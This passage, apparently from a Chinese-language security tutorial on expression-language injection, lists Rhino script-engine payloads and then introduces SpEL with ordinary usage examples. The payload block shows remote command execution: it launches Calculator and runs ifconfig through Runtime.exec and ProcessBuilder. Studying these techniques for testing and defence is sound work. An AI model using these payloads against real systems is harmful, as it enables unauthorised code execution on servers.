 针对不同引擎选用相应的payload，其他引擎payload类似但可能存在解析差异

```
# Rhino引擎payload
${''.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval('new java.lang.String(\"axisx\")')}
${''.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval('var x=new java.lang.ProcessBuilder; x.command(\"/bin/sh\",\"-c\",\"open -a Calculator\"); x.start()')}
${''.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval('java.lang.Runtime.getRuntime().exec(\"open -a Calculator\")')}
${''.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval('var s = [3];s[0] = \"/bin/sh\";s[1] = \"-c\";s[2] = \"ifconfig\";var p = java.lang.Runtime.getRuntime().exec(s);var sc = new java.util.Scanner(p.getInputStream(),\"GBK\").useDelimiter(\"\\\\A\");var result = sc.hasNext() ? sc.next() : \"\";sc.close();result;')}
```

关于poc构造，可以参考的文章：<https://www.betterhacker.com/2018/12/rce-in-hubspot-with-el-injection-in-hubl.html>

## spel

SpEL（Spring Expression Language）。官网参考：<https://docs.spring.io/spring-framework/docs/current/reference/html/core.html#expressions>

SpEL的基本用法

```java
ExpressionParser parser = new SpelExpressionParser();
Expression exp = parser.parseExpression("'Hello World'.concat('!')");
String message = (String) exp.getValue();
```

SpEL在实际开发中的一些应用如下

**（1）预定义Bean的值**
xml配置如下

```
<bean id="numberGuess" class="org.spring.samples.NumberGuess">
    <property name="randomNumber" value="#{T(java.lang.Math).random()*100.0}"/>
</bean>
```

也可以在Bean的属性上方用`@Value`注解达到同样的效果

**（2）Spring Security**
在Spring Security中，有四个注解用于安全控制`@PreAuthorize、@PostAuthorize、@PreFilter、@PostFilter`，它们都接收SpEL

```
@PreAuthorize("hasPermission(#contact, 'admin')")
@PreAuthorize("hasAuthority('ROLE_DMIN') or #reqVo.sysUser.username == #userDetails.username")
```

**（3）Apache Camel**
Apache Camel是一个集成框架，集成了许多常见的组件，如Redis、Shiro等，也集成了SpEL，官方文档：<https://camel.apache.org/components/3.20.x/languages/spel-language.html>
